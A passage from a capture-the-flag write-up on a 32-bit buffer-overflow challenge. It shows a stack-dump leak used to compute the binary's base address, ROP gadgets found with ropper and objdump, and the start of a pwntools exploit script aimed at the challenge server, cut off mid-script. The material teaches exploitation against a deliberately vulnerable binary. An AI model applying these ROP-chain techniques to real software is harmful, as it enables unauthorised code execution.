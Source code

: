 ```bash
0xff8bed74 | 00 00 00 00 00 00 00 00 |
You did it! Congratuations!
Returning to address: 0x565f6599
```

The challenge author kindly provided a stack dump; we do not even have to use GDB with this.

We can scrape the return address (back to `main`) from the first stack dump (before `Input some text:`) to compute the base process address--required for our ROP chain.  Just look 10 lines down to:

```
0xff8bed6c | 99 65 5f 56 90 ed 8b ff |
```


### Let's go shopping

Lastly, we need to find the ROP gadgets that satisfies:

```c
// This is what you need to do to get the first flag
// void print_flag() {
//   asm volatile("mov $1, %%eax; mov $0x31337, %%edi; mov $0x1337, %%esi; int3" ::: "eax");
// }
```

`ropper --file bof` found `0x00001396: pop esi; pop edi; pop ebp; ret;` that will satisfy `edi` and `esi`, however, `ropper` did not find `ret3` or anything useful for `eax`.  After taking a quick look with `objdump -M intel -d bof` I found:

```assembly
    13ad:       58                      pop    eax
    13ae:       cc                      int3
    13af:       c3                      ret
```    

We have everything we need.


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./bof')

if args.REMOTE:
    p = remote('maze.chal.perfect.blue', 1)
else:
    p = process(binary.path)

'''
// This is what you need to do to get the first flag
// void print_flag() {
//   asm volatile("mov $1, %%eax; mov $0x31337, %%edi; mov $0x1337, %%esi; int3" ::: "eax");
// }
'''

# 0x00001396: pop esi; pop edi; pop ebp; ret;
binary.symbols['pop_esi_edi_edp'] = 0x00001396

# ropper did not find this
'''
    13ad:       58                      pop    eax
    13ae:       cc                      int3
    13af:       c3                      ret
```